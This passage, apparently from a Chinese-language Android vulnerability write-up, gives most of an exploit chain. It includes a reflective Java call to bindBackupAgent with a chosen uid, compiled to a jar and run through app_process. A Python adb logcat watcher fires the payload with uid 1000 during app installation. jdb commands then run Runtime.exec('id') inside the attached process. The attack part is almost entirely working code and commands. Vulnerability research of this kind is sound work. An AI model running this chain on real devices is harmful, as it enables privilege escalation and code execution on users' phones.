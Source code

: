 ```
            applicationInfo.uid = uid;
            bindBackupAgentMtd.invoke(iActivityManager, applicationInfo, 0);
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }
}

```

将其编译为jar并通过app_process执行。注意在myapp没有安装时直接执行会造成后续INSTALL_FAILED_UID_CHANGED错误，具体原因可参照我之前写的denial-of-app分析。

监控py脚本:

```
from subprocess import Popen, PIPE
import os
KW = "Copying native libraries to "
#KW = "dexopt"
os.system("adb logcat -c")
p = Popen(["adb", "logcat"], stdout=PIPE, bufsize=1)
with p.stdout:
    for line in iter(p.stdout.readline, b''):
        if line.find(KW) != -1:
            print line
            os.system("adb shell /data/local/tmp/test.sh 1000")
p.wait()

```

test.sh

```
export ANDROID_DATA=/data/local/tmp/
export CLASSPATH=/data/local/tmp/MyTest.jar
app_process /data/local/tmp/ com.example.MyTest $@

```

jdb命令：

```
threads
thread 0xxxxxx
suspend
stop in android.os.MessageQueue next
run
print new java.lang.Runtime.exec("id")

```
